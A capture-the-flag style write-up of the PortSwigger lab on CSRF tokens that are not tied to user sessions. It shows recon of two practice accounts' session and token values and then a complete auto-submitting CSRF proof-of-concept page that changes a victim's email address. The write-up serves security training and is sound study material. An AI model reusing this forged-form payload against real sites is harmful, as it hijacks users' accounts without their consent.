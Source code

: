 ```yaml
---
title: 'Lab: CSRF where token is not tied to user session'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF/針對CSRF Token與同源政策的繞過手段"
---
```


# Lab: CSRF where token is not tied to user session
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
`wiener:peter`
`carlos:montoya`

## Background
CSRF token should tied to user session otherwise, it'll exploited by attacker.

## Recon
1. Username: `wiener`
![](https://i.imgur.com/tMOhBba.png)
Session: `l3IjqV4KRDAmncviJTvP80KK3RAHDJLG`
CSRF Token: `u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr`

2. Username: `carlos`
![](https://i.imgur.com/I0eaArB.png)
Session: `Goc2H2lmU9Ki7Of4IcOWpE4XFNMWFslR`
CSRF Token: `UGabdiPPbGaTLsSa8vOV6MfBEvi2nGQ3`

3. What if we change session or csrf_token?
![](https://i.imgur.com/jHO6p00.png)
It seems work properly which means the user session didn't tie with unique `csrf_token`

## Exp
The csrf token should be altered to another token that was intercepted by Burp Suite which means this token haven't sent it. So, we can altered a package to forge another user to achieve CSRF.
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a5200320345733f806803640046007d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="u4wMMtIhhUoTlc2LgadJFNRKOZ6bFAZr" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/zSm4Dyi.png)
:::

## Reference
[Lab: CSRF where token is not tied to user session - write up](https://www.cnblogs.com/Zeker62/p/15188614.html)